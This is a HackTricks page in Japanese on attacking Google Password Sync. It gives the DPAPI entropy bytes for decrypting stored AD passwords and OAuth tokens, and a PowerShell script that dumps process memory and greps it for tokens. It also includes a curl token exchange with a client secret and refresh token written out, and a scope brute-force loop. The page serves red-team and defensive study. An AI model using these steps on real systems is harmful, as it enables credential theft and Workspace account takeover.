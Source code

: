 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

これは、Googleが提供するバイナリおよびサービスで、**ADとWorkspaceの間でユーザーのパスワードを同期させる**ためのものです。ユーザーがADでパスワードを変更するたびに、それがGoogleに設定されます。

`C:\Program Files\Google\Password Sync`にインストールされ、ここでバイナリ`PasswordSync.exe`を見つけて設定し、`password_sync_service.exe`（実行を続けるサービス）があります。

### GPS - 設定

このバイナリ（およびサービス）を設定するには、**Workspaceのスーパ管理者の権限を与える必要があります**：

* Googleで**OAuth**を介してログインし、その後**トークンをレジストリに（暗号化されて）保存します**
* GUIのあるドメインコントローラーでのみ利用可能
* **Workspaceユーザーを管理する権限を持つGCPの**サービスアカウントの資格情報（jsonファイル）を提供する
* これらの資格情報は期限切れにならないため、悪用される可能性があるため非常に悪いアイデア
* SAがGCPで侵害される可能性があるため、Workspaceに対してSAにアクセスを与えるのは非常に悪いアイデア
* GUIのないドメインコントロール用にGoogleが要求
* これらの資格情報もレジストリに保存されます

ADに関しては、現在の**アプリケーションコンテキスト、匿名、または特定の資格情報**を使用するように指示することが可能です。資格情報オプションが選択された場合、**ユーザー名**は**ディスク**内のファイルに保存され、**パスワード**は**暗号化され**て**レジストリ**に保存されます。

### GPS - ディスクからのパスワードとトークンのダンプ

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)は、**GPS**を検出し、設定に関する情報を取得し、**パスワードとトークンを復号化する**ことができることに注意してください。
{% endhint %}

ファイル**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**には、設定の一部として**設定されたADの`baseDN`**や、使用されている資格情報の**`username`**が見つかります。

レジストリ**`HKLM\Software\Google\Google Apps Password Sync`**には、**暗号化されたリフレッシュトークン**と**ADユーザーのための暗号化されたパスワード**（存在する場合）が見つかります。さらに、トークンの代わりに**SA資格情報**が使用されている場合、それらもそのレジストリアドレスに暗号化されて保存されます。このレジストリ内の**値**は**管理者**のみが**アクセス可能**です。

暗号化された**パスワード**（存在する場合）は、キー**`ADPassword`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

暗号化されたトークン（存在する場合）は、キー**`AuthToken`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
さらに、これは**`0123456789abcdefghijklmnopqrstv`**という辞書を使用してbase32hexでエンコードされています。

エントロピー値は、ツールを使用して見つかりました。このツールは、**`CryptUnprotectData`**および**`CryptProtectData`**への呼び出しを監視するように設定され、その後、`PasswordSync.exe`を起動して監視するために使用され、設定されたパスワードと認証トークンを最初に復号化し、ツールは両方のケースで使用されたエントロピーの値を**表示します**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

これらのAPIへの呼び出しの入力または出力で**復号化された**値を見ることも可能であることに注意してください（Winpeasが動作を停止した場合に備えて）。

パスワード同期が**SA資格情報で設定されている**場合、それもレジストリ**`HKLM\Software\Google\Google Apps Password Sync`**内のキーに保存されます。

### GPS - メモリからのトークンのダンプ

GCPWと同様に、`PasswordSync.exe`および`password_sync_service.exe`プロセスのメモリをダンプすることが可能で、リフレッシュトークンとアクセストークン（すでに生成されている場合）を見つけることができます。\
ADに設定された資格情報も見つけることができると思います。

<details>

<summary>ダンプ <code>PasswordSync.exe</code> と <code>password_sync_service.exe</code> プロセスを検索してトークンを探す</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - リフレッシュトークンからアクセストークンを生成する

リフレッシュトークンを使用して、次のコマンドで指定されたクライアントIDとクライアントシークレットを使用してアクセストークンを生成することができます。
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - スコープ

{% hint style="info" %}
リフレッシュトークンを持っていても、アクセストークンのためにリクエストできるスコープは、**アクセストークンを生成しているアプリケーションでサポートされているスコープのみ**です。

また、リフレッシュトークンはすべてのアプリケーションで有効ではありません。
{% endhint %}

デフォルトでは、GPSはユーザーとしてすべての可能なOAuthスコープにアクセスできないため、次のスクリプトを使用して、`refresh_token`を使用して`access_token`を生成するために使用できるスコープを見つけることができます。

<details>

<summary>スコープをブルートフォースするためのBashスクリプト</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

そして、これが執筆時に得られた出力です：
```
https://www.googleapis.com/auth/admin.directory.user
```
どのスコープも指定しない場合と同じです。

{% hint style="danger" %}
このスコープでは、**既存のユーザーのパスワードを変更して権限を昇格させることができます**。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
